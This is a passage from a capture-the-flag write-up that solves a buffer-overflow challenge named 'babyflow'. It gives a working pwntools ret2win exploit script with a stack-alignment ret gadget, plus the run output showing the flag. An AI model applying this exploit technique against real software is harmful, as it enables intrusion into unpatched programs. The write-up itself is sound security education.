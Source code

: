 Now we can fill our buffer with 0x58 bytes which leads to us having control over RIP. Therefore we can set RIP to the winner function.

However, there is one issue when we try to execute this: the `MOVAPS issue`. This is caused on Ubuntu systems when operating with an unaligned stack. We can fix this by adding a `ret` instruction before our winner address. This causes the stack to be aligned.

See [ROP Emporium](https://ropemporium.com/guide.html) for more information about MOVAPS.

Ret instructions can be found using a variety of tools, such  as `ROPgadget`.

```python
from pwn import * 
target = process("./babyflow") # local
#target = remote('ip', port) # remote
context.log_level = 'debug' # enable debug mode (more verbosity)
payload = 0x58 * b'A' # (fill buffer)
payload += p64(0x401192)  # ret instruction to align  the stack
payload += p64(0x4011a2) # winner address
target.sendline(payload) # send full payload
target.interactive()
```

```shell
┌─[crystal@crystal-virtualbox]─[~/Downloads/CTF-CSCBE/pwn/BOF]
└──╼ $ python3 exploit.py
I made this binary so that the flag can never be obtained!
However, you can take a guess if you want!
Enter your guess and hope for the best...
Better luck next time!
[*] Process './babyflow' stopped with exit code -11 (SIGSEGV) (pid 3315)
[DEBUG] Received 0x1a bytes:
    b'CSCBE{y0u_fl3w_t0_v1ct0rY?!}'
CSC{y0u_fl3w_t0_v1ct0rY?!}[*] Got EOF while reading in interactive
$  
```

Flag: `CSC{y0u_fl3w_t0_v1ct0rY?!}`